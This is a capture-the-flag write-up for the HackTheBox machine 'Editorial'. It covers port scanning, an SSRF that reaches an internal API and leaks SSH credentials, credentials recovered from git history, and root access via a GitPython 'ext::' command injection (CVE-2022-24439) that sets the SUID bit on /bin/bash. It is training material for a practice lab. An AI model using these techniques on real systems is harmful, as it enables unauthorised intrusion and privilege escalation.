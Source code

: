 ```yaml
---
title: "Editorial Writeup - HackTheBox"
date: 2024-10-09
draft: false
description: Editorial is an easy Linux machine using an SSRF vulnerability to access an internal API and retrieve SSH credentials. Further Git enumeration reveals more creds, with root access gained via CVE-2022-24439 and misconfigured sudo permissions.
summary: Editorial is an easy Linux machine using an SSRF vulnerability to access an internal API and retrieve SSH credentials. Further Git enumeration reveals more creds, with root access gained via CVE-2022-24439 and misconfigured sudo permissions.
Tags:
- HackTheBox
- Linux
- Easy
cover:
  image: "feature.png"
---
```


| Link: | [https://app.hackthebox.com/machines/Editorial](https://app.hackthebox.com/machines/Editorial) |
| --- | --- |
| Difficulty | Easy |
| Machine | Linux |

---

## Enumeration

I ran nmap scan quickly on the target machine to reveal open ports on the box.

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

I again ran agressive scan on the box on two open ports again using `sudo nmap 10.10.11.20 -T4 -vv -sC -sV -A -O` , following is result of the scan:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I added editorial.htb to my /etc/hosts file using command “`echo '10.10.11.20 editorial.htb' >> /etc/hosts`” and then visited `http://editorial.htb` the site looks like this:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled.png)

## User Flag

There is `/upload` endpoint where we have upload functionality. We might get File Upload to RCE on this box. I will try to upload a reverse shell script to get a shell.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%201.png)

After bit of testing, the form field has cover url section which is actually vulnerable to SSRF and not file upload vulnerability in this website. 

The following request is vulnerable to SSRF where I will try to 

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%202.png)

Upon testing on internal network, I found that there is port 5000 open on this box.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%203.png)

Visiting the port 5000 response i.e (`static/uploads/rrrrrrrr-eeee-zzzz-yyyyy-iscool`) reveals the api endpoint:

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%204.png)

I visited the api endpoint and tried to open the file downloaded from the request recieved from the rsponse.

![Untitled](Editorial%20430389d554fb45758990e424591fde42/Untitled%205.png)

Upon visiting the endpoint given as by the request from above image, we get a file downloaded in our system. 

The file contains the username and password for user `dev`. Using SSH to the user and now we get user flag.

## Root Flag

There is a directory `/apps` which contains `.git` in home directory of the user dev.

```
dev@editorial:~$ ls
apps  lol.zip  user.txt
dev@editorial:~$ cd apps
dev@editorial:~/apps$ ls -la
total 24
drwxrwxr-x 6 dev dev 4096 Jun 16 08:17 .
drwxr-x--- 5 dev dev 4096 Jun 16 08:17 ..
drwxrwxr-x 2 dev dev 4096 Jun 16 08:13 app_api
drwxrwxr-x 4 dev dev 4096 Jun 16 08:10 app_editorial
drwxr-xr-x 8 dev dev 4096 Jun 16 08:09 .git
drwxrwxr-x 2 dev dev 4096 Mar  9  2021 GitDump-master
```

I will try to see logs:

```
dev@editorial:~/apps$ git log .
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:04:21 2023 -0500

    fix: bugfix in api port endpoint

commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 21:01:11 2023 -0500

    change: remove debug and update api port

commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev

    * To use development environment.

commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info

    * It (will) contains internal info about the editorial, this enable
       faster access to information.

commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:48:43 2023 -0500

    feat: create editorial app
```

Thee commit `b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae` shows that there is change in api downgrading from `prod` to `dev`. I will try to show the commit like this:

```
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:55:08 2023 -0500

    change(api): downgrading prod to dev
    
    * To use development environment.

diff --git a/app_api/app.py b/app_api/app.py
index 61b786f..3373b14 100644
--- a/app_api/app.py
+++ b/app_api/app.py
@@ -64,7 +64,7 @@ def index():
 @app.route(api_route + '/authors/message', methods=['GET'])
 def api_mail_new_authors():
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: R3DACTED_PASSWORD\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: R3DACTEDPASSWORD!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
     }) # TODO: replace dev credentials when checks pass
 
 # -------------------------------

```

This has credential for both user `prod` and `dev`. Since we are already at user prod, we will change our user to `prod`.

```
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

By using `sudo -l` i can see that this user prod can use `/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *` as root and we wont be asked for password.

Below is the code for the python script `/opt/internal_apps/clone_changes/clone_prod_change.py`

```
prod@editorial:/home/dev/apps$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

This script changes the working directory to `/opt/internal_apps/clone_changes`, initializes a bare Git repository, and clones the repository specified by `url_to_clone` into a subdirectory named `new_changes` with a specific Git configuration option.

Doing few research there is RCE vulnerability for this. If you are interested reading you can read [here](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

I will use this script to make /bin/bash suid binary and then use it to get root shell.

I ran `sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'`

Although I got errors, it successfully made it suid binary. I simply then ran `/bin/bash -p` to get root shell.

```
prod@editorial:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
```

There we go. We rooted this box successfully.

## Conclusion

Thanks for following my writeup. Follow my blogs for more. :D
